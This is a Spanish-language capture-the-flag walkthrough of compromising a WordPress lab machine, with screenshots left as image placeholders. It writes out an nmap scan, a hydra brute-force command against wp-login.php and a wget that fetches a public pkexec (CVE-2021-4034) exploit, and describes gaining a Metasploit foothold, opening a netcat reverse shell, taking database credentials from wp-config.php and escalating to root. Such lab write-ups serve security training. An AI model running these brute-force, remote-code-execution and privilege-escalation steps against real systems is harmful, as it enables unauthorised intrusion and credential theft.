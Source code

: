Realizamos el escaneo con nmap
```Bash
nmap -p- -sCV --open -T5 --min-rate 5000 -n -Pn 10.10.106.229 -oN Escaneo.txt
```
![[Pasted image 20240530104122.png]]

De primeras vemos el puerto 139 y 445 abiertos, lo revisamos y encontramos un recurso compartido `BillySMB`
![[Pasted image 20240530104358.png]]

Analizamos que permisos tenemos y nos encontramos que tenemos permisos de lectura y escritura
![[Pasted image 20240530104530.png]]

Accedemos al recurso sin usuario
![[Pasted image 20240530104735.png]]

Nos descargamos todos los ficheros
![[Pasted image 20240530105050.png]]

Revisamos si hay algo de contenido oculto
![[Pasted image 20240530110506.png]]

Lo extraemos
![[Pasted image 20240530110511.png]]

Y ahora lo leemos
![[Pasted image 20240530110458.png]]

Por este lado no continuaremos, seguiremos intentando vulnerar la maquina victima por el puerto 80, para ello primero añadiremos el dominio
![[Pasted image 20240530113221.png]]

De primeras vemos dos usuarios en el blog
![[Pasted image 20240530113359.png]]

Revisamos información de como esta echa la web y vemos que es con Wordpress
![[Pasted image 20240530113530.png]]

Confirmamos con otra herramineta como Wappalizer que este echa con Wordpress
![[Pasted image 20240530113717.png|500]]


Ahora buscaremos vulnerabilidades con wpscan y al anarlizarlo encontramos dos usuarios
![[Pasted image 20240530113950.png]]
![[Pasted image 20240530114143.png]]

Vemos dos usuarios que estaban en el blog, accederemos al login de php y vemos que los usuarios existen
![[Pasted image 20240530114255.png]]

Como ya tenemos dos usuarios realizaremos un ataque de fuerza bruta con hydra, para ello primero interceptaremos la petición con burpsuit
![[Pasted image 20240530115603.png]]

Mandamos la respuesta al repeater con CTRL + R y deshabilitamos burpsuit
![[Pasted image 20240530120414.png]]

Realizamos el ataque con hydra cambiando los parametros del registro de inicio de sesion, el siguiente comando hace la siguiente función:
- `l`: Para seleccionar el usuario
- `P`: Para seleccionar el listado de contraseñas
- `http-post-form`: Aqui pegaremos el contenido del login interceptado por burpsuit añadiendo después del igual `^PASS` donde queremos obtener las credenciales y al final del apartado después de cookie=1 agregamos :seguido del error que nos da al dar login
```Bash
hydra -l kwheel -P /home/wolf/Escritorio/rockyou.txt 10.10.57.104 http-post-form "/wp-login.php:log=kwheel&pwd^PASS^=&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.57.104%2Fwp-admin%2F&testcookie=1:The password you entered for the username" -I
```
![[Pasted image 20240530135311.png]]


Comprobamos el acceso y vemos que tenemos acceso a wordpress
![[Pasted image 20240530140548.png]]

Ahora que ya tenemos las credenciales vamos s buscar explotar el sistema, buscando encontramos que hay una vulnerabilidad en wordpress 5.0 que nos permite acceder al sistema de destino subiendo una imagen con una carga malicios, buscamos la carga en la base de datos de [rapid7](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/wp_crop_rce.rb) y la encontramos
![[Pasted image 20240530140927.png]]

La cargamos y configuramos en metasploit
![[Pasted image 20240530140953.png]]

Y al ejecutarla obtenemos acceso al sistema con el usuario www-data
![[Pasted image 20240530141021.png]]

Ahora abriremos una shell
![[Pasted image 20240530141515.png]]

Nos ponemos en escucha con netcat y una vez estamos en escucha ejecutamos el codigo para obtener una reverse shell
![[Pasted image 20240530141754.png]]

Y ya tendremos acceso
![[Pasted image 20240530141828.png]]

Ejecutamos el siguiente comando en la terminal donde tenemos acceso por netcat
![[Pasted image 20240530142550.png]]

Y ahora en la la terminal de la maquina victima ejecutamos los siguientes comandos
![[Pasted image 20240530143202.png]]

Leemos el fichero `wp-config.php` y obtenemos las credenciales de la base de datos
![[Pasted image 20240530142035.png]]

Accedemos a la base de datos
![[Pasted image 20240530144127.png]]

Continuaremos intentando la escalada de privilegios, para ello desde el terminal buscaremos algun binario interesante y escribiendo el siguiente comando los listamos todos
```Bash
find / -perm -4000 2>/dev/null
```
![[Pasted image 20240531090556.png]]

Encontramos la siguiente vulnerabilidad
https://github.com/Almorabea/pkexec-exploit
![[Pasted image 20240531090804.png]]

En el enlace nos explica el funcionamiento de este exploit, lo copiamos
```Bash
wget https://raw.githubusercontent.com/Almorabea/pkexec-exploit/main/CVE-2021-4034.py
```
![[Pasted image 20240531090922.png]]

Le cambiamos el nombre
![[Pasted image 20240531091146.png]]

Y ahora cargaremos el archivo en la maquina victima creando un servidor en python
![[Pasted image 20240531091230.png]]

Y descargandonos el fichero desde la maquina victima
![[Pasted image 20240531091315.png]]

Una vez descargado el fichero lo ejecutamos y obtenemos los privilegios de root
![[Pasted image 20240531091443.png]]